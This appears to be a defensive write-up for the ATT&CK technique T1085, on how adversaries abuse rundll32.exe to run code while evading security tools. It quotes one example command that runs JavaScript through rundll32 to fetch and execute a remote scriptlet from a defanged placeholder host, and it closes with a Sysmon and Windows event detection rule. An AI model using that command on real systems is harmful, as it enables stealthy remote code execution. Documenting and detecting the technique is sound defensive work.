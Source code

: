 # T1085 Rundll32
The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions Control_RunDLL and Control_RunDLLAsUser. Double-clicking a .cpl file also causes rundll32.exe to execute.

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: ```rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")```.
This behavior has been seen used by malware such as Poweliks.

## Detection
```
Sysmon Event ID = 1
Windows Security Event ID = 4688
process_parent_path = "*\\rundll32.exe" OR process_name="rundll32.exe"
```

